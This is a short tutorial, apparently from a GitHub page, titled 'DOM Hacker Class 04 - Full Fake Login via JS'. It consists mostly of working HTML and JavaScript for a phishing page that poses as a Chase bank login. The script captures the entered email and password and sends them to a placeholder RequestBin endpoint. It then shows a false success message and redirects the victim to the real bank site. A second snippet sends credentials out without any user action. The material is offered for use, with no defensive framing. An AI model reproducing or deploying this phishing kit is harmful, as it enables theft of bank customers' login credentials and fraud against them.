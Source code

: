 ## 	Full fake login built with JavaScript
> HTML TEMPLATE BELOW :
-----
```html

---

## 📘 DOM Hacker Class 04 - Full Fake Login via JS

```md
# DOM Hacker Class 04 - Full Fake Login via JS

## 🧠 Goal
Build an entire phishing login UI using JavaScript only, then capture data and redirect.

---

## 🧱 HTML Template (phish.html)
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Redirecting...</title>
  </head>
  <body>
    <script src="phish.js"></script>
  </body>
</html>
```
## Build Login Form in JS (phish.js)
```js
// Set page title
document.title = "Chase Secure Login";

// Fake logo
document.body.innerHTML += '<h2>Chase Online™ Secure Login</h2>';

// Create form
document.body.innerHTML += `
  <form>
    <input id="email" placeholder="Email or Username"><br>
    <input id="password" type="password" placeholder="Password"><br>
    <button id="loginBtn">Sign In</button>
    <p id="status"></p>
  </form>
`;

// Hijack login
setTimeout(() => {
  document.getElementById("loginBtn").onclick = function(event) {
    event.preventDefault();
    let email = document.getElementById("email").value;
    let pass = document.getElementById("password").value;

    fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);

    document.getElementById("status").textContent = "✅ Login Successful. Redirecting...";
    setTimeout(() => {
      window.location.href = "https://chase.com";
    }, 2000);
  };
}, 500);
```
## Auto capture without buttons
```js
let email = "admin@victim.com";
let pass = "hunter2";
fetch("https://YOUR-REQUESTBIN.x.pipedream.net?e=" + email + "&p=" + pass);
```
